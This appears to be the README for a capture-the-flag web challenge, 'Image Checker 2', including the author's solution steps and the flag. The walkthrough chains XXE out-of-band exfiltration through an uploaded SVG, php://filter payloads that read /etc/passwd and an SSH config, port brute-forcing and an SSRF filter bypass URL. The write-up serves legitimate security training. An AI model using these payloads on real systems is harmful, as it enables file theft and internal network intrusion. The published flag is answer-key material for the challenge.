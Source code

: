 # XXE OOB via SVG + SSRF + SSRF bypass

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
03/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Image Checker 2`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Very difficult / très difficile

### Description

```
noraj is hiding something...

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: SVG
- Hint2: XXE
- Hint3: SSRF
- Hint4: SSH (user) config

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

More hardcore version of *Image Checker 1* so first steps are the same but this
time the flag is not easily hidden in `/etc/passwd` but on a remote service.

1. The app ask for a SVG.
2. Other file types seem to be refused.
3. Let's pick a legit svg and sent it to see what happens. Alternatively just load `view.php` without parameter.
4. The app seems to parse info from the file.
5. Since SVG is a XML let's try a XXE attack.
6. We can't see any errors, let's try a XXE OOB.
7. Let's start a HTTP server to deliver payloads (`xxe.svg` & `xxe.xml`) and...
8. ... let's start a FTP OOB extraction receiver ([xxeserv](https://github.com/staaldraad/xxeserv)):
    ```
    ./xxeserv -p 2121 -w -wd /home/noraj/dir/ -wp 8080
    ```
9. Send the payload: http://x.x.x.x:42421/view.php?svg=http://192.168.1.84:8080/xxe.svg. (see `xxe.svg` & `xxe.xml`)
10. Read `/etc/passwd`, the home of the user `noraj` is `/home/noraj/`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/etc/passwd
    ```
11. Let's try to find juicy files like `.bash_hisotry`, `.profile`, etc. the only one which exists is `/home/noraj/.ssh/config`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/home/noraj/.ssh/config
    ```
12. The ssh config file is leaking the `hiddenservice` domaine name.
13. Then bruteforce port to find the port where a service is available: http://hiddenservice:9999. (see bruteforce script `bf_ports.rb` with in depth explanation in comments)
14. We have to request http://127.0.0.1:10000 but port and host are blocked, we have to bypass it.
15. Do an SSRF bypass. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999?url=http://127.0.0.1:10000
    ```
    with
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999/?url=http://127.0.0.1:10000%23@google.com:80/
    ```

## Flag

`sigsegv{so_y0u_ar3_r3a11y_s3eri0us_4bout_XXE_4nd_SSRF}`
